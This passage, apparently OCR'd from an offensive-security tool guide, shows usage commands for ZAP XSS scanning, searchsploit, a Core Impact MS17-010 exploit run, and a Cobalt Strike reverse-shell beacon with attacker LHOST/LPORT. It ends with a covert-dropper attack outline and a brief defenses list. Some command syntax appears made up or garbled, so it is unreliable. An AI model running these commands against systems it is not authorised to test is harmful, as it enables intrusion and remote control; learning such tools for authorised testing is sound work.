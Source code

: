 zap-cli quick-scan http://target.com 
Example Attack: Detecting XSS 
• Scan for Reflected & Stored XSS vulnerabilities: 
bash 
CopyEdit 
zap-cli active-scan http://target.com --xss 
5. ExploitDB (Exploit Database) 
ExploitDB is an online repository of public exploits, used for research and real-world 
attacks. 
Key Features 
Searchable Database of Exploits 
Local CLI Tool (searchsploit) 
Pre-compiled Exploits for Metasploit 
Installation (Kali Linux) 
bash 
CopyEdit 
sudo apt install exploitdb 
Usage 
1. Search for Vulnerabilities 
bash 
CopyEdit 
searchsploit Windows 10 
2. View Exploit Details 
bash 
CopyEdit 
searchsploit -x 47288 
6. Core Impact (Enterprise Exploitation Tool) 
Core Impact is a commercial penetration testing framework used for advanced 
exploitation and pivoting. 
Key Features 
Automated Exploits for Windows, Linux, IoT 
Advanced Pivoting & Lateral Movement 
Red Teaming & Threat Simulation 
Integration with Metasploit & Cobalt Strike 
Usage 
1. Run a Penetration Test 
bash 
CopyEdit 
coreimpact-cli --target 192.168.1.100 --exploit ms17_010 
7. Cobalt Strike (Adversary Simulation & Post
Exploitation) 
Cobalt Strike is a red teaming tool used for command & control, lateral movement, and 
persistence. 
Key Features 
Beacon (Remote Access & C2 Communication) 
Payload Generation (DLL, EXE, PowerShell) 
Privilege Escalation & Persistence 
Integrates with Metasploit & Core Impact 
Usage 
1. Generate a Reverse Shell Payload 
bash 
CopyEdit 
./cobaltstrike.sh 
beacon.exe LHOST=192.168.1.200 LPORT=4444 
2. Deploy & Control Beacons 
bash 
CopyEdit 
beacon> shell whoami 
Example Attack: Deploying a Covert Beacon 
• Dropper Payload → Victim Executes → Full Remote Control. 
�
� Defensive Measures (How to Protect Against Exploits) 
Keep software & operating systems up to date 
Use firewalls & intrusion detection systems (IDS/IPS) 